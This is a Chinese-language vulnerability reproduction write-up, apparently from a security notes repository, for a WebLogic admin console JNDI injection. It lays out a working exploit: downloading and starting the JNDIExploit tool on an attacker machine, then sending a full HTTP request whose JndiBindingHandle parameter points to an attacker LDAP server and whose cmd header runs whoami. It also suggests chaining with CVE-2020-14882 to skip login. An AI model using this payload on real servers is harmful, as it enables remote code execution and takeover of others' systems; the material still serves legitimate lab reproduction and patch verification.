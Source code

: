 # 0x00 软件介绍
Oracle WebLogic：一款流行的JAVA应用服务器

# 0x01 复现环境
复现环境：本地搭建的环境 win10 1909  
复现版本：WebLogic v12.2.1.4.0  
环境搭建：  
参考[https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA](https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA)中的环境搭建部分

# 0x02 利用条件
需要登陆WebLogic控制台

# 0x03 影响版本
10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0

# 0x04 漏洞复现
攻击环境：kali x64  
下载JNDIExploit：https://github.com/feihong-cs/JNDIExploit/releases/download/v.1.11/JNDIExploit.v1.11.zip  
启动JNDIExploit：java -jar ./JNDIExploit-v1.11.jar -i 192.168.1.5#其中192.168.1.5为本机IP  
登录WebLogic控制台  
再次访问WebLogic控制台，burp抓包，替换为如下payload
```
POST /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;5:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.1.7:7001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cmd:whoami
Referer: http://192.168.1.7:7001/console/login/LoginForm.jsp
Connection: close
Cookie: ADMINCONSOLESESSION=-XjUGJChfEBvqXqZBo748vnBGr895IIDGF5cmnoR9HkR_uY8Hrfd!-1181708775
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
如下图，可以看到成功执行命令whoami  
![image](./0.png)

此漏洞可配合Weblogic未授权访问漏洞（CVE-2020-14882）使用

# 0x05 批量脚本
无

# 0x06 参考链接
https://www.o2oxy.cn/3019.html
